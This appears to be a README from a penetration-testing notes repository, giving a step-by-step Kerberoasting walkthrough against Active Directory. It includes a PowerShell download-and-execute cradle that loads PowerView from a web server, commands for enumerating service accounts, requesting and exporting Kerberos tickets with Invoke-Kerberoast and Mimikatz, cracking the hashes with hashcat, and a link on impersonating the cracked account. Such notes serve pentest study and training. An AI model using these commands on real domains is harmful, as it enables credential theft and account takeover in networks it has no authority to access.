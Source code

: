 # Attacking Kerberos

*Target:* Active Directory accounts that have the SPN value set

1. Read and understand [Kerberos Fundamentals](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
2. Download [powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1) and [upload it to Windows machine](../file_transfer_smbserver/README.md)
3. Import `powerview.ps1` into memory

        powershell
        IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')

4. Enumerate **domain accounts** that have SPN (Service Principal Name) set, i.e., look for **user-generated** service accounts
   1. [GetUserSPNS.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)
   2. [Find-PSServiceAccounts.ps1](https://github.com/PyroTek3/PowerShell-AD-Recon/blob/master/Find-PSServiceAccounts)
   3. [PowerView’s "Get-NetUser -SPN"](https://github.com/PowerShellMafia/PowerSploit/blob/5690b09027b53a5932e42399f6943e03fa32e549/Recon/PowerView.ps1#L2087-L2089)
   4. Windows built-in utility **setspn.exe**

            setspn.exe -F -Q */* > Service.txt

5. Request **Kerberos tickets** for the identified service accounts using following **PowerShell** commands

        Add-Type -AssemblyName System.IdentityModel
        New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList “Replace_With_SPN_Name”

6. List all the available cached tickets

        klist

7. Install the [RiskySPNs](https://github.com/cyberark/RiskySPN) PowerShell module, and obtain the user hash

        Import-Module -Name .\RiskySPNs.psm1 -verbose 
        Invoke-Kerberoast | Select-Object Hash | Out-File -filepath HashCapture.txt

8. Download and import [autokerberoast_noMimikatz.ps1](https://github.com/xan7r/kerberoast/blob/master/autokerberoast_noMimikatz.ps1) PowerShell script
9.  Display the extracted tickets in **hashcat compatible** format
  
        Invoke-AutoKerberoast

10. Use [hashcat](https://hashcat.net/hashcat/) to crack the password

        hashcat -a 0 -m 13100 ./hash.txt /home/kali/Documents/lab/wordlist/rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --force 

11. Use **Mimikatz** to extract tickets from memory

        .\mimikatz.exe
        standard::base64
        kerberos::list /export

12. Begin offline password cracking
   1. [tgsrepcrack.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)
   2. [kirbi2john.py](https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/kirbi2john.py)

13. [Impersonate user](https://stealthbits.com/blog/impersonating-service-accounts-with-silver-tickets/)



## References

* https://cobalt.io/blog/kerberoast-attack-techniques
* https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/
* http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats
* https://pentestlab.blog/2018/06/04/spn-discovery/
* https://pentestlab.blog/2018/06/12/kerberoast/
* https://github.com/cyberark/RiskySPN
* https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
* https://adsecurity.org/?page_id=1821
* https://cobalt.io/blog/kerberoast-attack-techniques
* https://malicious.link/post/2016/kerberoast-pt3/
* https://pentestlab.blog/2018/06/12/kerberoast/
* https://github.com/nidem/kerberoast
* [Extracting the Ticket](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting#extracting-the-ticket)
* https://stealthbits.com/blog/impersonating-service-accounts-with-silver-tickets/
